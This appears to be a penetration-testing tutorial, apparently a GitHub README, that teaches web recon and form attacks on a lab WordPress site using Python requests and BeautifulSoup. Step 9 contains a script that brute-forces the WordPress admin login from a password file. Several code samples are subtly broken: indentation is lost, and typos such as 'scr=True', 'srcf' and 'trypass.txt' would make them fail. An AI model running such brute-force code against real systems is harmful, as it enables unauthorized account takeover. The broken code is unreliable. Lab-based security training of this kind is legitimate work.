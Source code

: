 # Attacking Web Forms with requests and BeautifulSoup in Python

Learn how to work with requests and beautifulsoup4 modules and Python to conduct web attacks. We're going to be using the lab on Attack Defense labs which is a platform to exercise and grow your penetration testing and cybersecurity skills.
Now here we're dealing with a web portal and we need to do some initial recon and then actually brute force authentication all using Python.
There is everything installed for us in the lab and we will be using Jupiter notebooks.

Now to get a very similar scenario to the one that I have here, you could have you could install a virtual machine in VM or virtual box and then install a vulnerable CMS(Content Management Systems) like wordpress, drupal, joomla! etc on the machine like the one we're attacking in this scenario.
And that's all for free.
Or like I'm doing in this case you could get a subscription on attack defense whichever you find the best suitable for you.
Now I'm using a tag defense labs platform for convenience here for no setup and for your better understanding.

Requirements :-
* pip install requests
* pip install beautifulsoup4 ( Used to pull data out from html or xml files.)
* CMS running on port 80 or any.
* Password Dictionary file

Attacking Web Portals - 
A CMS is hosted on port 80 or any port and we are gonna install above requirements and run commands on jupyter notebook

**Step 1** - Check if webportal is up by using GET request.
```python
import requests as r
r.get("http://127.0.0.1")
```
Output - Response [200]

**Step 2** - Print response headers of GET response and find which server is software being used?
```python
req = r.get("http://127.0.0.1")
req.headers
```
Output - Server : ngnix/1.14.0

**Step 3** - Get text content of localhost homepage and also find which CMS is running on local host.
```python
req.content ( or req.text ) 
```
Output - An html code of the localhost homepage appears. In title section, find the CMS running like wordpress.

**Step 4** - Print the response in a pretty form using beautifulsoup4
```python
from bs4 import BeautifulSoup as bs
soup = bs(req.content, "html.parser")
#if above one doesnt work, try req.text
print(soup.prettify())
```
Output - Same html code but pretty

**Step 5** - Print the title of the web portal hosted on localhost
```python
print(soup.title)
```
Output - Title WordPress

**Step 6** - Print the URLs present on homepage
```python
homepage = r.get("http://127.0.0.1")
soup = bs(homepage.content, "html.parser")
imgs = soup.find_all("img", scr=True)            # all images ("img") tags are collected. <img src="smt">
imgs_src = []
for img in imgs:
imgs_src.append(img['srcf'])
imgs_set = set(imgs_src)                  # to get unique elements, set() is used.
for img in imgs_set:
print(img)
```
Ouput - Prints urls of all the images.

**Step 7** - Scrape all URLs from homepage and print unique URLs.
```python
homepage = r.get("http://127.0.0.1")
soup = bs(homepage.content, "html.parser")
urls = soup.find_all("a", href=True)            # all anchor ("a") tags are collected. <a href="smt">
urls_href = []
for url in urls:
urls_href.append(url['href'])
urls_set = set(urls_href)                  # to get unique elements, set() is used.
for url in urls_set:
print(url)
```
Output - Prints all urls present on homepage.

**Step 8** - Can you access the admin (/wp-admin/) of the CMS? (wordpress here)
```python
admin = r.get("http://127.0.0.1/wp-admin/")
soup_admin = bs(admin.content, "html.parser")
print(soup_admin.prettify())
```
Output - prints content of admin page in a pretty way.

Attack steps -
**Step 9** - Bruteforce the wordpress login with user "admin" using password file.
```python
passfile = "password.txt"
with open(passfile, "r") as f:
for word in f:
word = word.strip("\n")
trypass = r.post("http://127.0.0.1/wp-login.php", data={ "log":"admin", "pwd":word})  

# here log and pwd were used as input "name" for userid and password

if "ERROR" not in trypass.txt:
print("Success, pwd is", word)
break
else:
print("wrong pwd", word)
```
Output - Print correct and wrong password for name admin.

**Step 10** - A token is kept at page localhost/token/index.html by user "anon" but the page is protected. what kind of protection is deployed?

**Step 11** - Break the protection and get token.

### Platforms/Web Apps to practice skills:
 
http://hackthebox.eu
 
http://tryhackme.com/
 
https://www.root-me.org/?lang=en
 
https://information.rapid7.com/metasploit-framework.html
 
http://www.dvwa.co.uk/
 
http://attackdefense.com/
    